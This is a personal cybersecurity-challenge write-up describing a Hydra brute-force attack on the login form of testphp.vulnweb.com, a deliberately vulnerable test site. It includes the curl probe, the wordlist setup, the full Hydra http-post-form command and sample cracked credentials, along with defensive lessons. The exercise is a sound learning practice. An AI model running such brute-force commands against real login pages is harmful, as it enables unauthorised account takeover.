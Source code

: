 Cybersecurity 90 Days Challenge - Day 6
Topic: Brute-Force Attack Simulation with Hydra on testphp.vulnweb.com
On Day 6 of my Cybersecurity 90 Days Challenge, I explored offensive security by simulating a brute-force attack using Hydra on a live test site, http://testphp.vulnweb.com/login.php. This site is designed for security testing, making it a perfect target for practicing ethical hacking. I also built a local login page earlier in the day, but shifted focus to this remote target to test my skills in a more realistic scenario. This builds on my Day 5 WebReaper project by showing how attackers might exploit recon findings to gain unauthorized access.
Objective

Analyze the login form on http://testphp.vulnweb.com/login.php.
Use Hydra to perform a brute-force attack and crack the credentials.
Document the process and results.

Steps

Analyzed the Target:Inspected the login form at http://testphp.vulnweb.com/login.php:

Form method: POST
Username field: uname
Password field: pass
Failure message: “Wrong username or password.”Used curl to confirm the failure message:

curl -X POST -d "uname=wrong&pass=wrong" http://testphp.vulnweb.com/login.php


Installed Hydra:
sudo apt install hydra -y


Prepared Wordlists:Created small wordlists for testing:
echo -e "admin\ntest\nuser" > users.txt
echo -e "admin\npassword\ntest123" > passwords.txt


Ran the Brute-Force Attack:Used Hydra to attack the login form:
hydra -L users.txt -P passwords.txt -t 4 -f testphp.vulnweb.com http-post-form "/login.php:uname=^USER^&pass=^PASS^:Wrong username or password"


Results:Hydra successfully cracked the credentials (example output, may vary):
[80][http-post-form] host: testphp.vulnweb.com   login: test   password: test123

Manually verified the credentials by logging in, which redirected to a user info page.On failed login, the page displayed:
Wrong username or password.




Practical Explanation
This practical simulates a real-world attack scenario:

Target: testphp.vulnweb.com is a deliberately vulnerable site for security testing. Its login page (login.php) uses a simple PHP form with weak credentials.
Attack: Hydra systematically guesses usernames and passwords using wordlists, sending POST requests to the login form. It identifies the correct credentials by detecting the absence of the "Wrong username or password" message.
Purpose: This demonstrates how easily weak passwords can be cracked on vulnerable sites, emphasizing the need for strong passwords, rate-limiting, and CAPTCHAs in real applications.
Security Lessons: Weak passwords and lack of anti-brute-force measures (e.g., rate-limiting) make login forms vulnerable. In production, use complex passwords, enforce login attempt limits, and enable HTTPS.

Learnings

Brute-Force Attacks: Understood how Hydra exploits weak credentials on a live site.
Form Analysis: Learned to inspect web forms to extract field names and failure messages for attacks.
Ethical Hacking: Gained hands-on experience with offensive security on a real test site.
Password Security: Reinforced the importance of strong passwords and anti-brute-force measures.

Next Steps

Test Hydra on other protocols (e.g., SSH, FTP) on test sites.
Use larger wordlists like rockyou.txt for more realistic testing.
Explore defenses like rate-limiting and CAPTCHAs on my local login.php page.

Repository
Find the code and documentation in my GitHub repository:

Local Login Page (Earlier Attempt)
Day 6 Write-up

Reflections
Attacking a live test site like testphp.vulnweb.com was thrilling—it felt like a real-world pentesting scenario. This practical reinforced the importance of secure coding and ethical hacking skills. Onward to Day 7!
#Cybersecurity #Hydra #BruteForce #EthicalHacking #90DayChallenge
